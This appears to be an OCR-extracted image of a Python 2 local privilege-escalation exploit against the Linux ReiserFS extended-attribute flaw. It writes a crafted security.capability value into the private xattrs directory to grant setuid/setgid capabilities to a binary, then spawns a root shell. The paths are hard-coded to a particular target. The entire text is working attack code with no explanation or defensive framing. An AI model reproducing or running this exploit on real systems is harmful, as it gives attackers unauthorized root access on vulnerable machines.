 ```
import os, sys
#SHELL = 'int main(void) { setgid(0); setuid(0); execl("/bin/sh", "sh", 0); }'
XATTR = '\x41\x58\x46\x52\xc1\x00\x00\x02\x01\x00\x00\x02\xc0\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
 
def err(txt):
    print '[-] error: %s' % txt
    sys.exit(1)
 
def msg(txt):
    print '[+] %s' % txt
 
def main():
    msg('checking for reiserfs mount with user_xattr mount option')
    f = open('/etc/fstab')
    for line in f:
        if 'reiserfs' in line and 'user_xattr' in line:
            break
    else:
        err('failed to find a reiserfs mount with user_xattr')
    f.close()
 
    msg('checking for private xattrs directory at /apachelogs/.reiserfs_priv/xattrs')
 
    if not os.path.exists('/apachelogs/.reiserfs_priv/xattrs'):
        err('failed to locate private xattrs directory')
  
    msg('capturing pre-shell snapshot of private xattrs directory')
    pre = set(os.listdir('/apachelogs/.reiserfs_priv/xattrs'))
     
    msg('setting dummy xattr to get reiserfs object id')
 
    ret=os.system('setfattr -n "user.hax" -v "hax" /apachelogs/data/corelanc0d3r')
    if ret != 0:
        err('error setting xattr, you need setfattr')
 
    msg('capturing post-shell snapshot of private xattrs directory')
    post = set(os.listdir('/apachelogs/.reiserfs_priv/xattrs'))
    objs = post.difference(pre)
 
    msg('found %s new object ids' % len(objs))
    for obj in objs:
        msg('setting cap_setuid/cap_setgid capabilities on object id %s' % obj)
        f = open('/apachelogs/.reiserfs_priv/xattrs/%s/security.capability' % obj, 'w')
        f.write(XATTR)
        f.close()
 
    msg('spawning setuid shell...')
    os.system('/apachelogs/data/corelanc0d3r')
 
if __name__ == '__main__':
    main()
```
